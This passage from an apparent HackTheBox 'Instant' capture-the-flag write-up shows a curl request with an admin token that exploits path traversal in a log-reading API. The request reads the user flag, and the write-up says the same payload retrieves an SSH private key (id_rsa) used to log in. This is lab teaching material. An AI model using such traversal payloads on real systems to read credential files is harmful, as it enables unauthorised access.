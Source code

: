 Now that we know the log is located in **/logs**, we can modify the path to **../user.txt** to retrieve the user flag.

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2Fuser.txt" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```
### User Flag

![User-Flag](/assets/img/htb-instant-2024/user-flag.png)

### Gaining Access

To gain access to the machine, we are going to modify the playload to read **ida_rsa**. This will allow us to SSH into the machine.

![Exploit5](/assets/img/htb-instant-2024/exploit5.png)

> **NOTES:** you cannot directly copy the output, clean the key according to the actual id_rsa format. I use ChatGPT xD, you can do it manually too.

Now SSH using this command and don't forget to chmod too.

> **ssh -i id_rsa shirohige@10.10.11.37**
